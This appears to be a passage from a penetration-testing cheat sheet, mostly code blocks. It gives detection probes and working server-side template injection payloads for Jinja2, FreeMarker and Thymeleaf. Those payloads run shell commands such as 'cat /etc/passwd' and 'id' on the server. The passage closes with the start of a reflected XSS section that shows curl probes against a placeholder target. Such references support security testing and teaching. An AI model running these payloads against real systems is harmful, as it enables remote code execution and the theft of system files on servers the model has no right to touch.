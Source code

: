### Server-Side Template Injection (SSTI)

**Detection:**

```bash
# Test for template injection
# Jinja2/Flask:
{{7*7}}  # Should output 49 if vulnerable

# Twig:
{{7*'7'}}  # Should output 7777777 if vulnerable

# FreeMarker:
${7*7}  # Should output 49 if vulnerable
```

**Exploitation payloads:**

```python
# Jinja2 (Flask) RCE:
{{ config.items() }}  # Enumerate config

{{ ''.__class__.__mro__[1].__subclasses__() }}  # List all classes

# Execute commands:
{{ ''.__class__.__mro__[1].__subclasses__()[396]('cat /etc/passwd',shell=True,stdout=-1).communicate() }}

# Simpler payload:
{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

```java
// FreeMarker RCE:
<#assign ex="freemarker.template.utility.Execute"?new()>
${ex("cat /etc/passwd")}

// Thymeleaf:
${T(java.lang.Runtime).getRuntime().exec('cat /etc/passwd')}
```

---

## Cross-Site Scripting (XSS)

### Reflected XSS

**Detection:**

```bash
# Basic test
curl "http://target.com/search?q=<script>alert(1)</script>"

# Check if payload appears in response
curl -s "http://target.com/search?q=UNIQUE12345" | grep "UNIQUE12345"
# If found = potential XSS if not properly encoded
```
